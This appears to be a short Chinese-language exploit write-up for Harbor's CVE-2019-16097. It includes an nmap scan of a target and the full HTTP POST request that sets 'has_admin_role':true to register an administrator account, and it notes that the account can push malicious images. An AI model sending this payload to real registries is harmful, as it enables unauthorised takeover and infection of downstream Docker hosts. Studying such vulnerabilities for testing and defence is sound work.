 ```yaml
---
title: Harbor
category:
- [Kali, Exploit]
- 
tags:
  - null
date: 2020-12-04 20:22:36
top:
updated:
---
```


Harbor是一个用于存储和分发Docker镜像的企业级Registry服务器，可以用来构建企业内部的Docker镜像仓库


## 信息收集
```zsh
 sudo nmap -sV -Pn -T4 -sSU -p 80,443 -sC    192.168.79.207         
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-04 19:39 CST
Nmap scan report for 192.168.79.207
Host is up (0.0065s latency).

PORT    STATE         SERVICE  VERSION
80/tcp  filtered      http
443/tcp open          ssl/http nginx 1.11.5
|_http-server-header: nginx/1.11.5
|_http-title: Harbor
| ssl-cert: Subject: commonName=*.mama.cn/organizationName=GZSC/stateOrProvinceName=Guangdong/countryName=CN
| Not valid before: 2016-07-08T03:03:28
|_Not valid after:  2017-07-08T03:03:28
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
80/udp  open|filtered http
443/udp open|filtered https

Nmap done: 1 IP address (1 host up) scanned in 132.41 seconds

```



## Harbor任意管理员注册漏洞 CVE-2019-16097

影响版本：  
Harbor 1.7.0-1.8.2，当且仅当镜像仓库开启了用户注册功能

### BurpSuite测试

漏洞存在接口为 /api/users 的 POST 方法，  
当提交的用户参数中包含 `has_admin_role: true` 时，则可直接注册创建权限为管理员的账号，  
并且可上传写入恶意 Docker 镜像，进而可直接感染使用此镜像仓库的 Docker 主机。

```
POST /api/users HTTP/1.1
Host: 127.0.0.1
Content-Length: 131
Accept: application/json
Origin: http://127.0.0.1
User-Agent: Opera/9.80 (Windows NT 6.0) Presto/2.12.388 Version/12.14
Content-Type: application/json
Referer: http://127.0.0.1/harbor/sign-in
Accept-Language: zh-CN,zh;q=0.9
Cookie: sid=5bb9aad90164bd2ed5274edaf20f9c81
Connection: close
{"username":"mrhonest","email":"mrhonest@qq.com","realname":"mrhonest","password":"111111Aaa","comment":"11111","has_admin_role":true}
```

#### 注册时抓包

![harbor-1](../images/harbor-1.jpg)

#### 添加poc

1.  `"has_admin_role":true`

![harbor-2](../images/harbor-2.jpg)

#### 管理员权限

![c4a7a60f8c8244c5bb38031347a66743](../images/harbor-3.jpg)

### Python脚本

[harbor添加管理员漏洞检测工具](https://github.com/theLSA/harbor-give-me-admin.git)